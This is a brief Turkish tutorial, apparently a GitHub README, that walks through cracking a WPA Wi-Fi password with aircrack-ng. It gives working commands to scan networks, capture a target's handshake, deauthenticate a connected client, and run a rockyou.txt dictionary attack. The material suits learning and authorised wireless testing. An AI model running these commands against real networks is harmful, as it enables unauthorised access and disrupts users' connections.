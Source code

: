 
İlk olarak hedef ağın MAC adresini tespit etmek amaçlı çevredeki ağlar dinlenir.  
```
	airodump-ng wlan0mon --manufacturer --uptime
```

Saldırılacak ağın MAC adresi alındıktan sonra aşağıdaki gibi bir dinleme başlatılır ve bu dinleme işlemi cap uzantılı bir dosyaya kayıt edilir. Eğer cap uzantılı dosya Wireshark'ta incelenir ise **eapol** filtresi ile handshake paketleri(her handshake 4 paketten oluşur) görülebilir.
```
	airodump-ng wlan0mon --bssid A6:EB:1C:26:3C:EA --channel 3 -w outputFile --output-format cap
```

Ardından bir handshake yakalamak amacıyla ağda bulunan istemcilerden biri ağdan düşürülür ve tekrar bağlanması beklenir. Eğer istemci ağa tekrar bağlanır ise handshake paketleri elde edilmiş olur.
```
	aireplay-ng --deauth 3 -a A6:EB:1C:26:3C:EA -c 5E:9F:F5:19:FC:2A wlan0mon
```

Handshake elde ediltikten sonra dinleme işlemi durdurulur ve dictionary saldırısı başlatılır. Dictionary saldırılarında kritik olan nokta sözlüğün hedefe göre hazırlanmasıdır.
```
	aircrack-ng -w ~/Documents/rockyou.txt -b A6:EB:1C:26:3C:EA outputFile.cap -0
```